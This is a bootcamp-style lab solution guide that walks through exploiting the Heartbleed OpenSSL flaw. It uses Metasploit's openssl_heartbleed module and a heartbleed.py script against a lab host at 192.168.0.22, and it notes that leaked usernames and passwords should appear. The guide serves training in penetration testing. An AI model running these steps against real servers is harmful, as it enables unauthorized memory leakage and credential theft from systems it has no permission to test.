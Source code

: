 ## Solution Guide: Exploiting Heartbleed with Metasploit

In this activity, you with gathered data leakage from the Heartbleed vulnerability.
 
---

1. Run the command that launches Metasploit:
 
    - `msfconsole`
 
2. Run the command that performs a search for `heartbleed` exploits:
   
    - `search heartbleed`
 
     ![heart1](./Images/heart1.png)
 
3. Run the command that loads the `auxiliary/scanner/ssl/openssl_heartbleed` module:
 
    -   `use auxiliary/scanner/ssl/openssl_heartbleed`
 
4. Run the command that shows the module options:
 
    - `show options`
 
     ![heart2](./Images/heart2.png)
 
5. Configure the module's target using the victim's IP address and specify which MSF exploit module to use:
  
     - Run the command that sets the `RHOSTS` option to the given target's IP address:

       - `set RHOSTS 192.168.0.22`
 
    - Run the command that sets the `RPORT` option to the target's port `443`:

       - `set RPORT 443`

    - You'll also want to see the results of the attack: before you run your exploit, enter the command `set verbose true`:

       -  `set verbose true`

6. Run the exploit. What were the results of the scan? Did you see any passwords? 

    - Run `run` or `exploit` 
 
    - Yes, a username and password should be revealed in the output. 

    ![heart3](./Images/heart3.png)

#### Bonus

In a new terminal window, switch to the `/opt/heartbleed-example/` directory and run the following command:

  - `./heartbleed.py -n 100 192.168.0.22`


Did you discover any new passwords? Are there differences between running this script and using Metasploit? What are they? 

   - Yes, we discover new passwords. 

      - There are no usernames associated with the passwords.

   - The `heartbleed.py` script does not capture as many bytes of data. 
      
   - The word "password" is cut off.
      


   ![heart4](./Images/heart4.png)


____
 
&copy; 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.

